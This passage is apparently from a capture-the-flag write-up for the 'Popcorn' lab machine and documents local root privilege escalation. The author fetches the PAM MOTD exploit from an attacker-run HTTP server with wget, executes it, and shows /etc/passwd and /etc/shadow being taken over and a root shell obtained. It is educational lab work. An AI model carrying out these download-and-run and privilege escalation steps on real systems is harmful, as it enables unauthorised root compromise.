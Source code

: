 ```none
RedHat Linux 6.0/6.1/6.2 - 'pam_console' Monitor Activity After Logout                                                                                    | linux/local/19900.c
```

I went ahead and mirror'ed `Linux PAM 1.1.0 (Ubuntu 9.10/10.04) - MOTD File Tampering Privilege Escalation (2)`:

```bash
searchsploit -m linux/local/14339.sh
```

I then transferred the exploit to the popcorn machine over HTTP:

```none
$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.6 - - [06/Sep/2020 15:47:18] "GET /14339.sh HTTP/1.0" 200 -
```

```none
www-data@popcorn:/dev/shm$ wget http://10.10.14.24:8000/14339.sh
--2020-09-06 22:48:25--  http://10.10.14.24:8000/14339.sh
Connecting to 10.10.14.24:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3042 (3.0K) [text/x-sh]
Saving to: `14339.sh'

100%[==================================================================================================================================================>] 3,042       --.-K/s   in 0s

2020-09-06 22:48:25 (205 MB/s) - `14339.sh' saved [3042/3042]

www-data@popcorn:/dev/shm$ chmod +x 14339.sh
www-data@popcorn:/dev/shm$ ./14339.sh
[*] Ubuntu PAM MOTD local root
[*] Backuped /var/www/.ssh/authorized_keys
[*] SSH key set up
[*] Backuped /var/www/.cache
[*] spawn ssh
[+] owned: /etc/passwd
[*] spawn ssh
[+] owned: /etc/shadow
[*] Restored /var/www/.cache
[*] Restored /var/www/.ssh/authorized_keys
[*] SSH key removed
[+] Success! Use password toor to get root
Password:
root@popcorn:/dev/shm# id
uid=0(root) gid=0(root) groups=0(root)
root@popcorn:/dev/shm# cat /root/root.txt
f122331023a9393319a0370129fd9b14
```

Note: If the exploit doesn't work out of the box, it is likely because SSH key-based authentication isn't properly setup for your current user.
You can fix this by running the following script. **Only do this if your current user doesn't have SSH configured since the script below will overwrite your existing SSH keys!**
